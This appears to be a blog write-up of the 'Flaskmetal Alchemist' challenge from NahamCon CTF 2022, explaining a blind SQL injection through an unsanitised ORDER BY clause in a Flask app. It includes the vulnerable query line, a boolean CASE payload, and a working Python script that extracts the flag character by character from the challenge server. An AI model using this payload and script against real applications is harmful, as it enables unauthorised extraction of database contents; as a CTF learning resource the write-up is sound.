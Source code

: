 ```yaml
---
title: NahamCon CTF 2022 - Blind SQLi
# Summary for listings and search engines
summary: Medium Web Challenge Writeup 
# Link this post with a project
# projects: []

# Date published
date: "2020-05-13T00:00:00Z"

# Date updated
#lastmod: "2020-12-13T00:00:00Z"

# Is this an unpublished draft?
#draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
 
 
 # placement: 2
  #preview_only: false

authors:
- Wassila Chtioui

tags:
- Blind SQLi
- Web Exploitation
- CTF Write-up
- Flaskmetal Alchemist

categories:
- Web
- CTF
- SQLi
---
```


### Introduction 
After spending the last month learning about each vulnerability and practising through labs. I had the oppportunity to evalute what I've leant so far through **_NahamCon CTF_** along with that my team **_Arr3stY0u_**.

I mostly enjoyed a Blind SQL Injection task so I thought why not sharing a writeup. 

### Flaskmetal Alchemist - 168 points  - 260 Solves (medium)

![alt text](https://i.imgur.com/PfXdjUZ.png)

The website contained a search bar having a Sort By drop-down list with 3 options: Name, Symbol and Atomic Number. **SQL Injection.. is it you ?**

I took a look at the source code provided. 

![alt text](https://i.imgur.com/f2s7lit.png)

Here, the most interesting line is :

``` 
metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
``` 

After some google research, we can understand through the previous line of code that the injection point is the ORDER_BY CLAUSE since it takes the result of the text() function - _which allows us to excecute SQL statements_ - as argument.  
Using burpsuite, it is possible to intercept the request and change the post parameters. 

First, let's check our methodology.
Knowing that we control the ORDER_BY CLAUSE, we can trigger any SQL Statement we want to be executed. 
To verify this, I used the following payload:

``` 
search=Li&order=(SELECT (CASE WHEN (1=1) THEN atomic_number else name END)); 
```

##### PS: I tried using the IF statement but it didn't work since it is only executed in the beggining of a query. Fortunately, "CASE" has the same function.

* **When true: the table is ordered by Atomic Number ==>** 

![alt text](https://i.imgur.com/sRAz5ba.png)

* **When false: the table is ordered by Name ==>**

![alt text](https://i.imgur.com/rg79P2L.png)

At this level, we made sure that according to the order of the elements, we can figure out if the condition we set in the CASE Statement is True or False. 
This comes to say that, in order to exfiltrate the flag, we can compare each character based on the True/False method.
To do so, we used the SUBSTR() function to parse the string character by character. We were also given in the source code the table and the column name where we can find the flag. 

Therefore, in order to automate this, I wrote the following script:
```
import requests, time

s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','_','{','}']
URL = "http://challenge.nahamcon.com:31148/"
final = ""
for i in range(1,30):
        for x in dictionary:
                exploit = "(SELECT (CASE WHEN (SUBSTR((SELECT flag FROM flag)," + str(i) + ",1) = '" + x + "')THEN atomic_number else name END));"
                #print exploit
                data = {'search' : 'Li' , 'order' : exploit }
                r = s.post(url = URL , data = data)
                #print(r.text)
                #print(r.text.index("Li"))
                if r.text.index("Li") == 2657 :
                        final = final + x
                        print "Leaking contents: " + final
                        break

```

And now we go eat something while our script is running ! 

![alt text](https://i.imgur.com/UvP81lP.png)

Aaand VOILAA ! 

### Conclusion
To sum up, this task sharpened my scripting skills; I also had the opportunity to dive in more into SQL Injection types. I congratulate the author and I look forward to the next edition.
